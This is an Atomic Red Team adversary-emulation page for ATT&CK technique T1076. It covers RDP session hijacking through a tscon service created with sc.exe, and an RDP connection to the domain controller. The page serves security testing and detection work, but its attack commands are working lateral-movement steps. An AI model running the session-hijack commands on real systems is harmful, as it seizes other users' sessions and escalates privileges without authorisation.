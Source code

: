 # T1076 - Remote Desktop Protocol
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1076)
<blockquote>Remote desktop is a common feature in operating systems. It allows a user to log into an interactive session with a system desktop graphical user interface on a remote system. Microsoft refers to its implementation of the Remote Desktop Protocol (RDP) as Remote Desktop Services (RDS). (Citation: TechNet Remote Desktop Services) There are other implementations and third-party tools that provide graphical access [Remote Services](https://attack.mitre.org/techniques/T1021) similar to RDS.

Adversaries may connect to a remote system over RDP/RDS to expand access if the service is enabled and allows access to accounts with known credentials. Adversaries will likely use Credential Access techniques to acquire credentials to use with RDP. Adversaries may also use RDP in conjunction with the [Accessibility Features](https://attack.mitre.org/techniques/T1015) technique for Persistence. (Citation: Alperovitch Malware)

Adversaries may also perform RDP session hijacking which involves stealing a legitimate user's remote session. Typically, a user is notified when someone else is trying to steal their session and prompted with a question. With System permissions and using Terminal Services Console, <code>c:\windows\system32\tscon.exe [session number to be stolen]</code>, an adversary can hijack a session without the need for credentials or prompts to the user. (Citation: RDP Hijacking Korznikov) This can be done remotely or locally and with active or disconnected sessions. (Citation: RDP Hijacking Medium) It can also lead to [Remote System Discovery](https://attack.mitre.org/techniques/T1018) and Privilege Escalation by stealing a Domain Admin or higher privileged account session. All of this can be done by using native Windows commands, but it has also been added as a feature in RedSnarf. (Citation: Kali Redsnarf)</blockquote>

## Atomic Tests

- [Atomic Test #1 - RDP](#atomic-test-1---rdp)

- [Atomic Test #2 - RDPto-DomainController](#atomic-test-2---rdpto-domaincontroller)


<br/>

## Atomic Test #1 - RDP
RDP hijacking](https://medium.com/@networksecurity/rdp-hijacking-how-to-hijack-rds-and-remoteapp-sessions-transparently-to-move-through-an-da2a1e73a5f6) - how to hijack RDS and RemoteApp sessions transparently to move through an organization

**Supported Platforms:** Windows



#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 
```
query user
sc.exe create sesshijack binpath= "cmd.exe /k tscon 1337 /dest:rdp-tcp#55"
net start sesshijack
```

#### Cleanup Commands:
```
sc.exe delete sesshijack
```





<br/>
<br/>

## Atomic Test #2 - RDPto-DomainController
Attempt an RDP session via "Connect-RDP" to a system. Default RDPs to (%logonserver%) as the current user

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| logonserver | ComputerName argument default %logonserver% | String | $ENV:logonserver.TrimStart("\")|
| username | Username argument default %USERDOMAIN%\%username% | String | $Env:USERDOMAIN\$ENV:USERNAME|


#### Attack Commands: Run with `powershell`! 
```
Connect-RDP -ComputerName #{logonserver} -User #{username}
```



#### Dependencies:  Run with `powershell`!
##### Description: Computer must be domain joined
##### Check Prereq Commands:
```
if((Get-CIMInstance -Class Win32_ComputerSystem).PartOfDomain) { exit 0} else { exit 1} 
```
##### Get Prereq Commands:
```
Write-Host Joining this computer to a domain must be done manually
```




<br/>
